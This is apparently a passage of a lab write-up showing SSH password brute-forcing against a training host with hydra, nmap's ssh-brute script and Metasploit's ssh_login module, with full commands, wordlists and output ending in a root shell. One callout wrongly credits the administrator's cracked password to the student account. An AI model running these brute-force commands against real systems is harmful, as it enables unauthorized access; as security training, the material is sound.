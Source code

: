 ```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```bash
hydra -l student -P /usr/share/wordlists/rockyou.txt 192.230.83.3 ssh
```

```bash
[DATA] attacking ssh://192.230.83.3:22/
[STATUS] 180.00 tries/min, 180 tries in 00:01h, 14344223 to do in 1328:11h, 16 active
[22][ssh] host: 192.230.83.3   login: student   password: friend
1 of 1 target successfully completed, 1 valid password found
```

![hydra bruteforce](.gitbook/assets/image-20230216151839392.png)

> 📌 *student*'s password is `friend`

- Use [nmap ssh-brute script](https://nmap.org/nsedoc/scripts/ssh-brute.html) to perform brute-force password guessing for *administrator* user

```bash
echo "administrator" > users
nmap -p22 --script=ssh-brute --script-args userdb=/root/users 192.230.83.3
```

```bash
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     administrator:sunshine - Valid credentials
|_  Statistics: Performed 27 guesses in 6 seconds, average tps: 4.5
```

![nmap ssh-brute](.gitbook/assets/image-20230216152315669.png)

> 📌 *student*'s password is `sunshine`

- Use [`ssh_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/ssh_login/) metasploit module to bruteforce *root*'s password

```bash
msfconsole
```

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.230.83.3
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```

```bash
[-] 192.230.83.3:22 - Failed: 'root:'
[!] No active DB -- Credential data will not be saved!
[-] 192.230.83.3:22 - Failed: 'root:!root'
[-] 192.230.83.3:22 - Failed: 'root:Cisco'
[-] 192.230.83.3:22 - Failed: 'root:NeXT'
[-] 192.230.83.3:22 - Failed: 'root:QNX'
[-] 192.230.83.3:22 - Failed: 'root:admin'
[+] 192.230.83.3:22 - Success: 'root:attack' 'uid=0(root) gid=0(root) groups=0(root) Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (192.230.83.2:41621 -> 192.230.83.3:22) at 2023-02-16 14:25:47 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
